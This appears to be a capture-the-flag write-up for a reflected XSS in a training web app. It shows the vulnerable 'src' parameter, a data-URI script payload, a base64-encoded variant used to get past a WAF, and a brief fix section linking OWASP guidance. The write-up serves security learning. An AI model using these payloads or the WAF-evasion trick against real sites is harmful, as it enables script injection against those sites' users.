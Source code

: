 # XSS_REFLECTED

### Breach Exploit
In the home page we found an image clickable.

Here we can see this in the url:

```
/?page=media&src=nsa
```

When we set the value of src to 'test' we have an image "wrong answer" and the parameter is stored here:

```
<object data="test"></object>
```

We can execute some javascript using:
 
```
/?page=media&src=data:text/html, <script>alert("xss")</script>
```

But we don't get the flag. We use base64 with the same payload to avoid WAF and that works:

```
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik7PC9zY3JpcHQ=
```
### Fix Breach
Avoid to use url data without proper validation, always sanitize input
```https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html```

### Documentation
```https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html```
```https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/waf-bypass```

